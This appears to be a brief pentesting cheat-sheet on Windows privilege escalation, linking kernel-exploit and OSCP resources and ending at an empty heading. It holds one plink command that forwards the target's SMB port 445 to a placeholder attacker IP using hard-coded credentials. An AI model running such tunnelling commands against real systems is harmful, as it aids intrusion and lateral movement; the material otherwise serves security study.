 # Windows Escalation Paths

## Kernel Exploits

- [Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)


## Password and Port Forwarding

- [Privilege Escalation Windows](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) for Port Forwarding

```cmd
plink.exe -l root -pw toor -R 445:127.0.0.1:445 {attackers ip}

```


## Windows Subsystem for Linux
